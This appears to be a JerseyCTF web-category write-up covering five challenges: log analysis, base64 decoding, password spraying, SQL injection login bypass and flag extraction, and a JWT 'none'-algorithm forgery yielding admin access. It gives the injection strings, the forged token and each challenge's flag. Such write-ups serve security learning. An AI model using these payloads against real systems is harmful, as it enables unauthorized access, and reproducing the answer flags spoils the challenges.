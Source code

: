 # web

- [x] [apache-logs (100)](#apache-logs)
- [x] [seigwards-secrets (100)](#seigwards-secrets)
- [x] [heres-my-password(250)](#heres-my-password)
- [x] [flag-vault (300)](#flag-vault)
- [x] [cookie-factory (400)](#cookie-factory)

## apache-logs

### *Description*

- An apache log file that contains recent traffic was pulled from a web server. There is suspicion that an external host was able to access a sensitive file accidentally placed in one of the company website's directories. Someone's getting fired...
- Identify the source IP address that was able to access the file by using the flag format: jctf{IP address}

<details>
    <summary>View Hint</summary>
	Which directory types should sensitive files not be placed in?
</details>

[webtraffic.log](https://www.jerseyctf.site/files/3a0428612620ef7b190032655f097b00/webtraffic.log?token=eyJ1c2VyX2lkIjozODgsInRlYW1faWQiOjUxMSwiZmlsZV9pZCI6OH0.YlYjVw.k0472hBVgZ8pNS9aLHisdMszles)

### *Writeup*

<kbd>CTRL+F</kbd> for 200 (successful HTTP GETs), the one indicating bank records represents confidential data and is what we are searching for.

Flag: `jctf{76.190.52.148}`

## seigwards-secrets

### *Description*

- Seigward has been storing his secrets on his website [https://jerseyctf.co](https://jerseyctf.co/) for decades. Hasn't failed him yet.

<details>
    <summary>View Hint</summary>
	Where can you find a website's code?
</details>

### *Writeup*

Notice that the [login.js](https://jerseyctf.co/login.js) file checks if the password when converted from ascii to base64 (`btoa`) is equal to `amN0ZnsxTV9zMF8xTV81b19EeW40TWl0M18wOTI0Nzh9`. Use a base64 decoder.

Flag: `jctf{1M_s0_1M_5o_Dyn4Mit3_092478}`

## heres-my-password

### *Description*

- Here's the deal - we have a list of 500 users (males, females, and pets) and one password. Log-in with the proper credentials for the flag.
- The password is **lightswitchon_and_offLOL26** and the website is [www.jerseyctf.online](http://www.jerseyctf.online/).

<details>
    <summary>View Hint</summary>
	This is not intended to require manual brute force. What are some other types of brute force methods?
</details>

[users.txt](https://www.jerseyctf.site/files/b75ea9a239df8ec1408edc31d05932b3/users.txt?token=eyJ1c2VyX2lkIjozODgsInRlYW1faWQiOjUxMSwiZmlsZV9pZCI6OX0.YlYlAg.llQS13U44BZu_MnEALyBwcMWvUM)

### *Writeup*

The username changes every minute.

Flag: `jctf{c0NGR@T2_y0U_p@22wORd_SPR@y3D!}`

## flag-vault

### *Description*

- I'm very organized. I even keep all of my flags neatly organized in a database! But, these are my flags! You don't have access to them... or do you?
- Do not brute force this challenge.

Start here: jerseyctf-flag-vault.chals.io

<details>
    <summary>View Hint</summary>
	<ul>
        <li>What is the most common type of database?</li>
        <li>What is the flag format? How does that help you?</li>
    </ul>
</details>

### *Writeup*

Login initially with the username `admin` and password `' OR 1=1--` Then give the SQL query `' OR FLAG LIKE 'jctf{%' --` which will search for all entries that match the jctf beginning characters.

![img](https://lh6.googleusercontent.com/ja4PP1_ChvlZ_ZBTZzZRPJfNMkGjQaUdq0HuB3v4DM79-Rx3N8mNMFIvV7FadYpISUnfuEu7Eg8GZ-6NCsGRtUWW2b_Wb4dQzpPjBaGwQY4LLJXTX8nW9rnw9MSBtKfrXxFQstJI)

Flag: `jctf{ALMOST_LIKE_A_NEEDLE_IN_A_HAYSTACK}`

## cookie-factory

### *Description*

Granny's Cookie Factory

- Here at Granny's Old-Fashioned Home-Baked Cookie Factory, we pride ourselves on our cookies AND security being the best in the business.

Start here: https://jerseyctf-cookie-factory.chals.io/

### *Writeup*

CVE-2018-1000531 vulnerability.

Username as “a” and password as “b” generates this JWT token: `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImEifQ.I2_0Uq0TSXDKY8C13D_0yk8mLcZP_0RPy_I2KNwXBO8`, which is in base64

`eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9` → `{"typ":"JWT","alg":"HS256"}`

`eyJ1c2VybmFtZSI6ImEifQ` → `{"username":"a"}`

`I2_0Uq0TSXDKY8C13D_0yk8mLcZP_0RPy_I2KNwXBO8` → some random bytes

We want to generate a new custom token with a none algorithm.

`{"typ":"JWT","alg":"none"}` → `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0`

`{"username":"admin"}` → `eyJ1c2VybmFtZSI6ImFkbWluIn0`

We can leave the password as blank so our token ends with a `.`

Payload: `eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIn0.`

![img](https://lh6.googleusercontent.com/ViZ8ru4mHheTDwGxymv74V5D00ieb_qxKYeYDKFZe3Rjpsss75UIC8DPp9AmmZDZW7J_DDAySBEXagayMfNhzVDKpWKfvPUECFfkIakzjXjGPzu0XH7XhIyECOM76AOhgBHZ9BBI)

Flag: `jctf{GEEZ_WHAT_A_TOUGH_COOKIE}`
